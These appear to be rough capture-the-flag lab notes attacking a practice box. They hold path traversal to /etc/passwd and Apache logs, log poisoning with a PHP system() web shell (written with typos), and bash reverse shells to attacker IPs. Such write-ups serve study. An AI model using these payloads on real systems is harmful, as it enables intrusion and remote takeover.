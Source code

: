 ```Bash
nmap -p- $IP -sV -sC --open
# -sV: Probe open ports to determine service/version info.
# -sC: Equivalent to --script=default, which runs a set of default scripts against the target.

ftp $IP 2121 
# 2121 port

For an FTP server that allows anonymous access, the credentials are typically:

Username: anonymous
Password: <any email address> (or sometimes just anonymous)

Most FTP servers that allow anonymous login will accept any string as the password. Commonly, users just enter their email address as a form of identification.
```

  

```Bash
ftp> quote PASV
227 Entering Passive Mode (192,168,209,72,14,178)
# Using passive mode is often necessary when the client is behind a firewall 
# that restricts incoming connections, as it allows the client to initiate both the command and data connections.
```

  

```Bash
nc -nv 192.168.209.72 3762
\#This command tells Netcat to connect (-nv stands for "no DNS resolution" and 
#"verbose") to the specified IP address and port.
\#It can use if ftp no resopence. 
```

since it have 3 port server, (80, 8593, 54787) so, no Nikto, for easy get blocked, too many request.

  

since we find  
  
`<a href="index.php?book=list">Book List</a>`

we try:

view-source:[http://192.168.197.72:8593/index.php?book=../../../../../etc/passwd](http://192.168.197.72:8593/index.php?book=../../../../../etc/passwd)

also in nmpa we find apache, so we try

[http://192.168.197.72:8593/index.php?book=../../../../../../var/www/html/index.php](http://192.168.197.72:8593/index.php?book=../../../../../../var/www/html/index.php)

[http://192.168.197.72:8593/index.php?book=../../../../../../var/log/apache2/access.log](http://192.168.197.72:8593/index.php?book=../../../../../../var/log/apache2/access.log)

  

```Bash
nc -nv 192.168.197.72 80
192.168.197.72 80 (http) open
GET /?<php system($_GET['cmd]); ?>
```

  

[http://192.168.197.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=id](http://192.168.197.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=id)

  

```Bash
bash -i >& /dev/tcp/192.168.45.227/9090 0>&1
# wrap the revershell 
bash -c 'bash -i >& /dev/tcp/192.168.45.164/9090 0>&1'
```

```Bash
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.192.72%2F9090%200%3E%261%27
```

  

user

miguel:x:1000:1000:,,,:/home/miguel:/bin/bash

  

  

view-source:[http://192.168.213.72:8593/index.php?book=../../../../var/log/apache2/access.log](http://192.168.213.72:8593/index.php?book=../../../../var/log/apache2/access.log)

  

[http://192.168.213.72:8593/index.php?book=../../../../var/log/apache2/access.log&cmd=id](http://192.168.213.72:8593/index.php?book=../../../../var/log/apache2/access.log&cmd=id)